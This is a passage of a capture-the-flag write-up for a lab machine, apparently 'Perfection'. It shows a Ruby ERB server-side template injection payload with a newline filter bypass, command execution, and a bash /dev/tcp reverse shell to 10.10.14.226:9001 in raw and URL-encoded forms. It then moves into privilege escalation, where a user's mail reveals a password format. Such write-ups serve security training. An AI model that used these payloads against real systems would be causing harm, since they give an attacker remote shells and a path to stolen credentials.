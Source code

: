 - a: is the name of the grade.
- %0A : is new line
- `<%25%3d+7+*+7+%25>` : SSTI payload that should results in 49 if it worked.

![workedssti](8.png)

It worked!

## **Foothold**

Now let's get our foothold.

Let's try a different payload, a command execution one. ``<%= `ls /` %>``

![lscommand](9.png)

We got command execution, now let's get a reverse shell, the command I'll be using is:

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.14.226/9001 0>&1"
```

I'll add it to the payload.

```ruby
a%0A<%= `bash -c "/bin/bash -i >& /dev/tcp/10.10.14.226/9001 0>&1"` %>
```

Then I'll url encode everything.

> CTRL + u in burp does the job.

```ruby
a%0A<%25%3d+`bash+-c+"/bin/bash+-i+>%26+/dev/tcp/10.10.14.226/9001+0>%261"`+%25>
```

![revshell](10.png)

## **Privilege Escalation**

### Susan --> root

When running `id` we find that susan is part of the sudoers.

```bash
susan@perfection:/tmp$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

We don't have susan's password so let's do some enumeration.

Let's run linpeas.

![mail](11.png)

We find that susan has some mail. Let's read it.

```text
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```